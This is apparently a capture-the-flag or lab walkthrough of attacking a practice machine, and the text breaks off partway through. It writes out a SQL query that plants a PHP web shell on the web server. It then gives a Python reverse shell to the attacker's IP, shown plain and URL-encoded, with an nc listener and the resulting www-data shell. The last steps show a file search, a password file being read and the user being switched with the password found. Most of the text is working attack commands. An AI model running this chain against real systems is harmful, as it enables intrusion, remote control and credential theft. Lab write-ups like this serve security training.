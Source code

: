 ##webshell

`SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/forum/templates_c/pyload.php"`

#####to access the webshell we have to use these commands, by encoding them into the url

`export RHOST="IP";export RPORT=3412;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`
#####after encoding it
`export%20RHOST%3D%22 "IP of the hacking machine, not the webserver" %22%3Bexport%20RPORT%3D3412%3Bpython%20-c%20%27import%20socket%2Cos%2Cpty%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28os.getenv%28%22RHOST%22%29%2Cint%28os.getenv%28%22RPORT%22%29%29%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty.spawn%28%22%2Fbin%2Fsh%22%29%27%0A`

#####final link
`forum/templates_c/pyload.php?cmd=export%20RHOST%3D%22{IP}%22%3Bexport%20RPORT%3D3412%3Bpython%20-c%20%27import%20socket%2Cos%2Cpty%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28os.getenv%28%22RHOST%22%29%2Cint%28os.getenv%28%22RPORT%22%29%29%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty.spawn%28%22%2Fbin%2Fsh%22%29%27%0A`
## GET a foothold on the machine 

open a port and start listening for incoming connection

nc -lk -p 3412

encode the pyload and pass it to cmd in the browser : https://IP/forum/templates_c/pyload.php?cmd=(encoded pyload)

┌──(kali㉿kali)-[~]
└─$ nc -lk -p 3412
$ whoami
whoami
www-data




# find user lmezard's password
##### find files with a stickybit permission 

find / -type f -user www-data 2>/dev/null

```
notice this file /rofs/home/LOOKATME/password

cat /rofs/home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"

run su lmezard
password: G!@M6f4Eatau{sF"
```
# find user lauries's password
in the user's home folder we find these files
